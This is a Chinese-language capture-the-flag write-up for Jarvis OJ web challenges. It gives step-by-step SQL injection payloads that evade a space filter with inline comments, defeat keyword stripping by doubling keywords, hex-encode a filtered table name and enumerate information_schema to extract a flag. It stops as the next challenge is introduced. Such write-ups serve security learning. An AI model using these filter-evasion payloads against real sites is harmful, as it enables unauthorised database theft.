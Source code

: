 





可以看到，url上自动加上了id参数，猜测是sql注入

经 fuzz，发现空格被过滤，使用 `/*1*/`可以绕过，关键字可以采用双写绕过

值得注意的是，这里是int型注入，不需要添加单引号

测试注入点：

```sql
?id=1/*1*/and/*1*/1=1# # 回显正常
?id=1/*1*/and/*1*/1=2# # 回显错误
```

用order by等进行字段数查询，这里我直接猜测3，带有运气成分

```sql
?id=-1/*1*/uniounionn/*1*/seselectlect/*1*/1,2,3#
```

页面回显3，因此我们利用3这个列来进行查询

```sql
?id=-1/*1*/uniounionn/*1*/seselectlect/*1*/1,2,group_concat(table_name)/*1*/frfromom/*1*/information_schema.tables/*1*/where/*1*/table_schema=database()#
```

页面返回`content`，只有一个表，继续查询列名

```sql
?id=-1/*1*/uniounionn/*1*/seselectlect/*1*/1,2,group_concat(column_name)/*1*/frfromom/*1*/information_schema.columns/*1*/where/*1*/table_name=0x636f6e74656e74#
```

这里因为对表名`content`进行了过滤，所以我们换成十六进制即可绕过

网页回显 `id`，`context`，`title`三个列名，flag在`context`里，查询可得

```sql
payload: ?id=-1/*1*/uniounionn/*1*/seselectlect/*1*/1,2,context/*1*/frfromom/*1*/content#
```

### flag 在管理员手里

Description：

>只有管理员才能获得flag，你能想办法获得吗？
>
>`link：http://web.jarvisoj.com:32778/`

打开题目环境，看见 `Only Admin can see the flag!!`

查看源代码无果，分析一下数据包，f12/bp走起，可以注意到：

![](https://github.com/IvenWings/Writeups/blob/master/JarvisOJ/Web%20WriteUps%20for%20Jarvis%20OJ.assets/sendpix4.jpg)
